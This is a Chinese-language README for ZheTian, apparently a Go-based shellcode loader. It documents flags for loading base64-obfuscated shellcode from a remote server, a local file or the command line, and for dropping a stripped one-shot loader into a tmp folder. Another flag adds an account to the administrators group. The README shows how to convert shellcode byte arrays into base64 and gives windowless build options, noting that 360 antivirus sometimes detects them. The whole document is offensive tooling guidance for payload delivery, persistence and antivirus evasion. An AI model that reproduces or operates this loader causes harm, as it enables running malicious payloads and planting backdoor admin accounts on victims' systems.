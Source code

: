# 遮天 1.x
![v1](../images/v1.png)


### 参数：
> -u  string：从远程服务器加载base64混淆后的字符串。
>
> -r string：从本地文件内读。
>
> -s string：读取无修改的原始文件，只能从本地加载。
>
> -o boolean：向userHome\tmp目录输出一次性可执行文件，体积比主程序小了五六倍，砍去了其他功能，只保留了ShellCode Loader
>
> -n string：向管理员组创建用户，-n的参数即为账户，-p的参数为密码。需以管理员身份运行
>
> -c string：直接从命令行获取base64字符串。如：ZheTian -c ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M==...
>

#### 运行示例：

#### Base64字符串方式加载：

原始python代码：
> buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75..."

只需提取数组中的16进制代码：
> \xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75...
>
然后去除\x，得到：
> fc4883e4f0e8c88b52208b423c4801d0668178180b0275......
>
然后使用base64转码，得到：
> ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==
>
c、ruby等同理，Java之流的则是去除  ", 0x"。注意，是逗号空格0x
> byte buf[] = new byte[] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41};
>

获取到base64字符串之后可以选择放到远程服务器加载，使用-u 命令即可。也可以放到本地文件内，或者直接使用-c命令以命令行方式运行。如：ZheTian.exe -c
ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==

##### 原文件读取类型：

使用 `ZheTian -h `命令可查看支持的语言。推荐使用Java、py、C语言。原文件无需进行任何修改即可直接加载，但是不支持放在远程服务器，只能通过本地 -s
命令读取，如： `ZheTian -s C:/Windows/Temp/payload.java`

##### 图示操作过程

先生成64位shellcode

![payload](../images/payload.jpg)

然后根据需要的命令进行修改
![code](../images/code.png)

下面执行示例：
![run](../images/run.png)

### 编译：

> go build -ldflags "-w -s" -o ZheTian.exe

可以使用
> go build -ldflags "-w -s -H windowsgui" -o ZheTian.exe

实现无窗口运行，但是360偶尔会识别为恶意程序

### 带图标编译：

> 先执行：go get github.com/akavel/rsrc
>
> rsrc -manifest ZheTian.manifest -ico favicon.ico -o ZheTian.syso
>
>再执行go build -ldflags "-w -s" -o ZheTian.exe
>
> 更多介绍：https://blog.csdn.net/qq_38376348/article/details/108318880
>
